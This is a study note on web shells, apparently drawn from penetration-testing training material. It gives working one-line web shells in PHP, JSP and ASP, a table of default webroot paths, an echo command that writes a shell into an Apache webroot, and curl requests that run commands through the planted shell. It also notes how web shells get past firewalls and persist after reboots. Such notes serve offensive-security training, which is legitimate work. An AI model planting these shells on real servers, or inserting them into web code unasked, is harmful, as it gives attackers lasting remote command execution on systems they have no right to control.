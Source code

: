 ## Definition

A [[Web Shell]] is a type of [[Shell]] typically implemented as a web script (e.g., [[PHP]], [[ASPX]], [[JSP]]). It accepts commands through [[HTTP]] request parameters (like `GET` or `POST`), executes them on the server, and returns the output within the web page response.

## Writing a Web Shell

A web shell script is often a short one-liner. Here are examples for common web languages:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

---

## Uploading a Web Shell

To use a web shell, the script file must be placed in the remote host's web directory (webroot) to allow its execution via the web server. This might be achievable through:
- A file upload vulnerability.
- Direct writing to the webroot if [[Remote Code Execution (RCE)]] is already achieved.

First, identify the webroot directory. Common defaults include:

| Web Server          | Default Webroot      |
| ------------------- | -------------------- |
| `[[Apache]]`        | `/var/www/html/`     |
| `[[Nginx]]`         | `/usr/local/nginx/html/` |
| `[[IIS]]`           | `c:\\inetpub\\wwwroot\\` |
| `[[XAMPP]]`         | `C:\\xampp\\htdocs\\`    |

Once the webroot is identified, use available command execution (e.g., `echo`) to write the shell script. For example, on a Linux host running Apache:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

## Accessing a Web Shell

After uploading, access the web shell using a browser or a tool like `[[cURL]]`. Append the command as a parameter (e.g., `?cmd=id`):

Browser Example URL: `http://SERVER_IP:PORT/shell.php?cmd=id`

![UID, GID, and groups set to www-data.](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Using `[[cURL]]`:

```shell-session
Iskandeur@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Advantages

- **Firewall Bypass:** Often bypasses egress firewall rules as commands run over standard web ports (e.g., 80, 443).
- **[[Persistence]]:** The shell file remains after system reboots, allowing command execution without re-exploiting the initial vulnerability.

### Disadvantages

- **Interactivity:** Less interactive than [[Reverse Shell|reverse]] and [[Bind Shell|bind shells]], requiring separate requests for each command. Automation scripts (e.g., in Python) can create semi-interactive experiences.